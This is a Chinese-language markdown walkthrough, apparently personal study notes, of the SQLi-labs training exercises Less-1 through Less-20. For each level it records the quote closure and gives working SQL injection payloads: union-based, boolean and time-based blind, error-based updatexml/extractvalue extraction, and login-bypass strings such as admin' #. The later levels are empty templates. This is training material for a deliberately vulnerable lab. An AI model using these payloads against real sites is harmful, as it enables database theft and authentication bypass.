

## Less-1

 + 是否有报错,是否回显(数据库数据回显界面,首先考虑联合查询方式)

+ 有报错

 - 字符型注入

- 闭合方式:
 '
  单引号

+ 注入Payload:(#urlencode=%23)

```bash
    ?id=-1' union all select 1,version(),3   %23     // #
    ?id=-1' union all select 1,version(),3  --+      //--+
    ?id=-1' union all select 1,version(),3  --%20    // --空格
```
## Less-2

 + 变换ID参数界面有回显， 如果存在SQL注入漏洞，首先考虑联合查询方式

+ 输入单引号，界面有报错， 从报错信息中可知是，

+ 注入方式:
数字型注入

+ 注入Payload:

```bash
    ?id=1 and 1=2 --+  
    ?id=1 and 1=1 --+
```

+ 页面有变化，表明存在boolean-based blind sql injection 

+ 数字型没有闭合方式，直接 注释掉后面的sql 语句即可

```bash
    ?id=1 and sleep(5)--+ 
```

+ 网络时间线 为5ms ，则可判断存在time-based bling sql injection 延时注入的漏洞

+ Payload:

```bash
    ?id=1 and 1=2 union all select 1,database(),3 --+  
```   

## Less-3

+ 输入不同ID参数，页面显示不同，说明与数据库有交互，
输入数字后面带个单引号，提示有报错
存在报错注入

+ 通过报错信息可知  sql 语句闭合方式为：

+ ‘）字符型注入

+ Payload:

```bash
    ?id=3') --+  # 界面显示正常
    ?id=3') and 1=2 --+
    ?id=3') and 1=1 --+     # 界面有回显并且用变化，说明存在布尔类型的注入漏洞
    ?id=3') and sleep(5) --+  #界面网络时间线，有５ｍｓ　说明存在延时注入漏洞
```

+ 注入Payload：
```bash
    ?id=3') and 1=2 union all select 1,@@datadir,current_user() --+
```
## Less-4

+ 输入不同ID参数，页面显示不同，说明与数据库有交互，界面有回显。如果存在ｓｑｌ注入漏洞首先使用联合查询方式
参数后输入单引号　，页面没有变化　，输入双引号，页面报错。从报错信息中可知，

+ 闭合方式：
　　”）
　　字符型注入

```bash
    ?id=4")  --+　　　　　　　＃页面很和谐　，显示正常　
    ?id=4") and 1= 2 --+
    ?id=4") and 1= １ --+　　＃存在布尔类型注入
    ?id=4") and sleep(5) --+　＃存在延时类型注入
```

+ Payload :
```bash
    ?id=4") and 1=2 union all select 1,hex(database()),user() --+
```


## Less-5

+ 输入不同ＩＤ参数，页面显示不变，表明没有回显　，不能用联合查询方式　
输入参数后面带　单引号　，页面报错，说明存在报错注入漏洞　
有报错可以用报错注入方法。

+ 通过回显的报错信息　可知闭合方式为　：单引号：‘ 字符型注入

+ 注入测试：
```bash
    ?id=3' --+　　　＃页面很和谐　，注释了　单引号后面　的ＳＱＬ　语句
    ?id=3' and 1=１--+
    ?id=3' and 1=2 --+　　　　＃两次ｐａｙｌｏａｄ输入后，页面显示不同，说明存在布尔类型注入漏洞
    ?id=3' and sleep(5) --+　　　＃页面时间县　有５ｍｓ　　，　说明存在延时类型注入　漏洞
```

+ 注入Payload:
```bash
    ?id=3' and length(database())=8 --+　＃布尔类型注入方法　１＝２　
    ?id=3' and updatexml(1,concat(0x5e,(select version()),0x3a),1)--+
    ?id=3' and updatexml(1,concat('^',(select version()),'^'),1)--+    #报错注入方法
    ?id=3' and extractvalue(1,concat('^',(select version()),'^'))--+
```


## Less-6

+ 输入不同ＩＤ参数，页面显示不变，表明没有回显　，所以不能用联合查询方式，　输入参数后面带　双引号　，　页面报错　报错说明存在报错注入漏洞　


+ 通过报错信息可知，　　闭合方式：
　　　＂
　字符型注入

+ 注入测试:

```bash
    ?id=2"--+　　　　　　　　＃页面很和谐
    ?id=2" and 1=１--+
    ?id=2" and 1=2--+　　　　＃存在布尔类型注入
    ?id=2"and sleep(5)--+　　　＃存在时间线５ｍｓ　可用岩石注入
```

+ 注入Payload：
```bash
    ?id=2"and updatexml(1,concat(0x3a,version(),0x3a),1)--+
    ?id=2"and extractvalue(1,concat(0x5e,version(),0x5e)) --+
```


## Less-7

+ 输入不同ＩＤ参数，页面显示不变，表明没有回显　，　不能用联合查询方式,输入参数后面带　单引号　，　报错　说明存在报错注入漏洞　

+ 但是通过报错信息无法判断闭合方式　

+ 代码审计发现：
+ 闭合方式：
　　　＇））

+ 注入测试：
```bash
    ?id=1')) --+　　　　　　　　＃很和谐
    ?id=1'))and 1=１ --+　　　　　
    ?id=1'))and 1=2 --+　　　　　＃存在　布尔类型注入漏洞
    ?id=1'))and sleep(5) --+　　　＃页面时间县　有５ｍｓ　　，　说明存在延时类型注入　漏洞
```

+ 注入Payload：

```bash
    ?id=1')) and length(database())=8 --+　　
    ?id=1')) and ascii(substr(database(),1,1))=0x73 --+
    ?id=1')) and ascii(substr(database(),1,1))=115 --+　　＃字母　：ｓ　
```


## Less-8

+ 输入不同ＩＤ参数，页面显示不变，表明没有回显　，　不能用联合查询方式
没有回显，没有报错。　
+ 输入单引号　　，页面有变化　　添加　－－＋　强制闭合

+ 闭合方式：
　　＇
单引号

+ 注入测试：

    ```bash
    ?id=2'  --+　
    ?id=2' and 1=１ --+
    ?id=2' and 1=2 --+　　　＃存在布尔类型状态
    ?id=2' and sleep(5) --+
    ```

+ 注入Payload：　

    ```bash
    ?id=2' and length(database())=8 --+
    ```

## Less-9

+ 没有报错，没有回显，　没有布尔类型状态　
添加　单引号后　，有岩石状态

+ 闭合方式　：
　　‘　单引号

+ 注入测试:
　字符型

+ 注入Payload：　
    ```bash
    ?id=2' and sleep(5) --+
    ?id=2' and if(length(database())=8,sleep(5),1) --+
    ?id=2' and if(ascii(substr(database(),2,1))=101,sleep(5),1) --+
    ```

## Less-10
　　　
+ 没有报错，没有回显，　没有布尔类型状态　

+ 输入　用户名后加单一号有报错，

+ 添加　双引号后加sleep()函数，有延时状态

+ 闭合方式：
　＂　双引号

+ 注入测试:

+ 注入Payload：
    ```bash
    ?id=3" and if(length(database())=1,sleep(5),1) --+
    ?id=3" and if(substr(database(),1,1)='a',sleep(5),1) --+
    ```


+ 也可半自动化注入（burpsuit）　


## Less-11

+ Username输入`admin`　 Password输入　`admin`　
页面正常显示，当用户名后添加　单引号时，页面返回错误报错

+ 通过报错信息得知　，闭合方式　；
　＇单引号　
字符型注入
　
+ 注入Payload：
    ```bash
    admin'--+ 
    admin' #  密码任意　　　　页面很和谐，　可正常显示。（万能用户名）
    admin1' or 1 -- 
    Dumb' or '1'='1   #万能用户名
    ```



    　
## Less-12

+ 输入：用户名　`admin`　密码　`admin`

+ `admin' ` 密码：123   没有报错　，没有回显
+ `admin" ` 密码：123   有报错　　　


+ 通过报错信息，可知　闭合方式　：
　　“）
　　密码位置报错可知闭合方式

+ 注入方式:
　　字符型

+ 注入Payload：　
    ```bash
    admin1")or ("1=1") or ("　　＃返回数组第一行
    admin") or ("　　　　　　　密码任意　　＃万能用户名　
    Dumb") or ("")--  
    Dumb")-- 
    ```


## Less-13

+ 输入：用户名　`admin`　密码　`admin`

+ `admin"` , 123   没有报错　，没有回显
+ `admin'` , 123   有报错　　　

+ 字符型注入,
闭合方式　：
　　')

+ 注入Payload:
    ```bash
    admin') -- 
    ```

## Less-14

+ 输入`admin"`  密码任意，提示报错 通过报错信息可知 闭合方式为：双引号 `"`


+ 注入方式:字符型

+ 注入Payload：
    ```bash
    admin1"or "1"="1   # 密码任意

    admin1"or 1 --      # 返回数组第一行

    asd"or 1 --         # 刚刚空格 ，  任意帐号密码登陆
    ```

## Less-15

+ 常规输入没有反应 ，但是  输入：`admin' -- ` 和 `123 -- `后可登陆成功 ,用已知用户名，任意密码


+ 闭合方式：
  `'`
  单引号

+ 注入Payload:


## Less-16

+ 无报错，无回显 

+ 输入 `admin") -- `  任意密码即可登陆 

+ 闭合方式:`")`

+ Payload :
    ```bash
    ") or 1 --+   任意密码  即可登陆成功 
    是否有报错,是否回显
    ```

## Less-17

是否有报错,是否回显

注入方式:

注入Payload


Less-18

是否有报错,是否回显

注入方式:

注入Payload


Less-19

是否有报错,是否回显

注入方式:

注入Payload


Less-20

是否有报错,是否回显

注入方式:

注入Payload